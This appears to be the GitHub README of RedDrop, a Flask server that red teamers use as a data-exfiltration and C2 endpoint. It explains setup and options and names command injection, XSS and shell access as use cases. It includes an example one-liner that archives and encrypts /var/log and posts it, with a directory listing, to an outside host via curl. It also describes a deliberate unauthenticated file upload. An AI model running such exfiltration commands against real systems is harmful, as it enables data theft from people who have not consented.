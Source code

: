 ![Red Drop](docs/RedDrop.png)
# RedDrop Exfil Server
RedDrop Exfil Server is a Python Flask Web Server for Penetration Testers, Red Teamers, and Security Professionals which features:
- [File Upload](docs/FileUpload.md)
- [Automatic Payload Processing](docs/PayloadProcessing.md)
- [Automatic Archive Extraction](docs/ArchiveExtraction.md)
- [JSON Logging](docs/JSONLogging.md)
- [Configurable Options](docs/Configurations.md)
- [Authorization Rules](docs/AuthorizationRules.md)

This software is intended to be used as an a rudementary C2 endpoint for capturing web request data in various scenarios. Some examples may include:
- A blind command injection vulnerability
- An XSS attack where a quick and dynamic web request logging server is needed
- A situation where remote shell access has been obtained and a verbose-logging web-based exfiltration server is desired

## Demo
[![Demo](https://img.youtube.com/vi/x9KmGCfyyZ0/0.jpg)](https://www.youtube.com/watch?v=x9KmGCfyyZ0)
---

**This project is still in development and some features may be buggy. If you run into problems, please open an Issue!**

### A note on security
This software should not be left generally accessible to the broader Internet. It is built with what some might consider an Arbitrary File Upload vulnerability by intention, and will accept and save files to the local disk without authorization or authentication. Due diligence should be taken to ensure that the system this software is deployed to is secured properly. A few recommendations:
- Place a Reverse Proxy to route and block traffic to this web application
- Whitelist your target's IP space
- Don't auto extract archives without understanding my filtering method

## Quick Start
### Docker
```bash
mkdir uploads logs
docker run -t -v "$PWD/uploads:/reddrop/uploads" -v "$PWD/logs:/reddrop/logs" -p "80:80" -n reddrop cyberbutler/reddrop-exfil-server -h
```
### PipEnv
```bash
pip install --user pipenv
pipenv install
pipenv shell
python reddrop-server.py -h
```

### Options
```bash
python reddrop-server.py -h

usage: reddrop-server.py [-h] [--host HOST] [--port PORT] [-c CONFIG] [--dump-config] [--debug] [-p {hex,openssl-aes256-pbkdf2,gzip,b64}]
                         [-A | --auto-process | --no-auto-process] [--auto-extract-tar]
                         [--encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD]

                      +:                     
                    .*##-                    
                   :##**#+                   
                  +#*****##:                 
                :##********#+                
               =#***********#+               
              =#******#******#*              
            .+#******#-*#*****##-            
           -#******#*.  =#******#*           
          +#******#+     :##*****##:         
        .*#*****##-        +#******#=        
       :#******#+.          -#******#+       
      -#******#-             :##*****#*.     
     +#******#:               .*#*****##:    
   :##*****#*.                  =#******#+   
    *#****#-                     .*#****#-   
   +#***##.                        =#***##:  
  +#****##.                        +#*****#: 
 +#****##.                          =#*****#.
:#*****#.                            ******#=
*#******         Red    Drop         -#******
#******+                             :#*****#
#*******                             -#*****#
*#*****#.                            +*******
-#*****#*                           -#*****#=
 *#*****#*.                        =#******#.
  *#******#=.                    -*#******#- 
   +#*******#*-               :+##******##:  
    -##*******##*+=-:...::-=+##********#*.   
      -*#**********#######***********#+:     
        -*#***********************##+.       
          .=+##***************##*=:          
              :-=+**######**+=:              

     A Webserver for File and Data Exfiltration.
        Author: @cyberbutler/@thecyberbutler

optional arguments:
  -h, --help            show this help message and exit
  --host HOST, -H HOST  The host IP Address to bind to (default: 0.0.0.0)
  --port PORT, -P PORT  The port to bind to (default: 80)
  -c CONFIG, --config CONFIG
                        YAML config file path (default: None)
  --dump-config         Dump the configuration settings as YAML (default: False)
  --debug               Enable Flask's Debug Mode (default: False)
  -p {hex,openssl-aes256-pbkdf2,gzip,b64}, --processor {hex,openssl-aes256-pbkdf2,gzip,b64}
                        Specify a processor to use. This flag can be used more than once to define multiple process_list functions. Use this
                        flag in the order in which you wish to process received data (default: [])
  -A, --auto-process, --no-auto-process
                        Automatically run processors based on detected data. This option is enabled by default, but should be disabled (--no-
                        auto-process) when you receive output you don't expect. Such as in the case of Base64 decoding being run on output that
                        is not Base64 encoded. Instead, force the process with the `-p` flag. (default: True)
  --auto-extract-tar, -x
                        Auto extract TAR archives received by the server. (default: False)
  --encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD
                        The password used to decrypt/encrypt. (default: EncryptMe)

Far more configuration options exist which must be specified in Environment Variables, use `--dump-config` to see all of the options

```

### Examples
#### Exfiltrating a Tar archive and command output from a Linux system
```bash
tar cz /var/log | base64 | xxd -ps | gzip | openssl enc -aes-256-cbc -pass 'pass:EncryptMe' -e -a -pbkdf2 | curl 172.17.0.1$PWD -F 'logs=@-' -F "listing=`ls -al * | gzip | base64`"
```

![example-screenshot.png](docs/example-screenshot.png)

## Todo
- [ ] Greater documentation of techniques using this web server
- [ ] Chunked File Upload handling and example commands
- [ ] More Processing modules
- [ ] Expand archive extraction functionality
